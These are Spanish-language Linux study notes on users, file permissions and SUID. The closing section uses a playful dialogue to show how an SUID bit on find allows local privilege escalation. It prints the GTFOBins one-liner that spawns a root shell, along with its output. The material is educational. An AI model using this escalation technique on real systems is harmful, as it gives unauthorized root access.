 # Usuarios
Como bien sabemos los usaurios del sistema se encuentran en `> /etc/passwd` cada uno de estos usuarios tiene una shell, podemos ver las shells registradas en el sistema.

	> /etc/shells

Si deseamos filtrar los usuarios, podemos aplicar un filtro por quien utiliza una *shell* ya que estan siempre terminan en *sh*

	cat /etc/passwd | grep "sh$" | awk '{print $1}' FS=':'

Output:
``` bash
root
postgres
s4tisfacti0n
```

Con `> id` podemos ver lo grupos a los que pertenece el usuario.

## Creacion de usuarios
Creamos el directorio correspondiente del usaurio

	> mkdir /home/white

Creamos el usuario

	> useradd -d /home/white -s /bin/bash white
-d *Directorio correspondiente al usuario*
-s *Tipo de shell a usar*

Obviamente le asignamos como propetario a *white:white*  de su directorio.

	> chown white:white /home/white

Y ya estariael usuario.

	white@DESKTOP-0365ART:~$ pwd
	/home/white
	white@DESKTOP-0365ART:~$ echo $SHELL
	/bin/bash
	white@DESKTOP-0365ART:~$ id
	uid=1001(white) gid=1001(white) grupos=1001(white)
	white@DESKTOP-0365ART:~$ 


# Permisos

## Lectura de permisos 

	drwxr-xr-x   5 s4tisfacti0n s4tisfacti0n  4096 oct 29 17:18 opt
*d* -> Directorio
*rwx rwx rwx*
 P     G    O
 
*r*-> read
*w* -> write/alter/create/delete
*x* -> *f*: execute | *d*: atravezar (cd /opt) 

## Asignacion de permisos & grupos
La asignacion la podemos otorgar con **chmod** que nos sirve para cambiar los permisos.
``` bash
	drwxr-xr-x 2 white white 4096 oct 30 07:31 directorio
	#agregar (+), quitar (-)
	#grupo (g), otros (o)
	chmod o-x directorio/ # no pueden acceder al directorio
	chmod g+rw,o-rx directorio/

```

Asignar a un usuario a un grupo.

	usermod -a -G colegio white

Cambiar el grupo de archivo o directorio con **chgrp**

	chgrp s4tisfacti0n directorio



## Permisos especiales

### SUID
**-rwsr-x---**
La **s** en rws significa setuid, lo que significa establecer ID de usuario. Este es un bit de permiso especial que permite que el programa, cuando lo ejecuta cualquier usuario, se ejecute con el SUID efectivo del propietario

*Nota:*
Este bit de permiso es un riesgo para la seguridad y solo debe aplicarse cuando sea absolutamente necesario.

#### Explotacion y abuso de privilegios

Asignar permiso SUID.
> Conversacion
-white: Oye root nesesito buscar archivos privilegiados con find, dame permiso no?
-root: Vale solo quieres buscar archivos.
-white: Si claro.

Añadiendo un 4 y los permisos del archivo podemos otorgar el permiso UID.

	root> chmod 4755 /usr/bin/find
	#
	root> chmod +s /usr/bin/find

	root> which find | xargs ls -l
	-rwsr-xr-x 1 root root 298576 abr 19  2022 /usr/bin/find

> Conversacion
> -white: Muchas gracias root :)
> -Narrador: Pero white no tiene buenas intencionas asi que busca escalar privilegios.
> 

Asi que va a [GTFobins](https://gtfobins.github.io) y encontro que puede ejecutar una bash con el con *find*

	find . -exec /bin/bash -p \; -quit
Qe consiste en buscar un archivo executable para ejecutar una bash, cuando encuentre este cierra el find.
``` bash
white@DESKTOP-0365ART:~$ find . -exec /bin/bash -p \; -quit
bash-5.2# whoami
root
bash-5.2# 
```

Mas [[Explotacion de privilegios]].
